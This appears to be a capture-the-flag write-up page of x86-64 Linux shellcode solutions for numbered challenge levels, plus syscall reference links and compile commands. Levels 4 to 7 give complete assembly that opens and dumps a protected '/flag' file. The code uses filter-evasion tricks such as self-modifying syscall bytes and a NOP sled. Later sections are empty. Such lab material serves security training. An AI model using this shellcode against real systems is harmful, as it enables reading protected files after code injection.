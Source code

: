 # level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
syscall

push 0
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
syscall

.section .data

```
## 5
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:

# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# sendfile(1,fd,0,60)
push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 6
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:
# fill the r-x area
.rept 4096
    nop
.endr
# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# sendfile(1,fd,0,60)
push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 7
把flag写到/tmp/fl里
```s
.intel_syntax noprefix
.globl _start
.section .text
_start:

# open("/flag",NULL)
push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall
mov rbx,rax

# open("/tmp/fl",O_WRONLY | O_CREAT,0666)
mov rax,0x6c662f706d742f
push rax
mov rdi,rsp
mov rsi,65
mov rdx,0666
mov rax,2
syscall

# sendfile(fd1,fd,0,60)
push rax
pop rdi                     # mov rdi,rax
push rbx
pop rsi                     # mov rsi,rbx
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

# exit(0)
push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
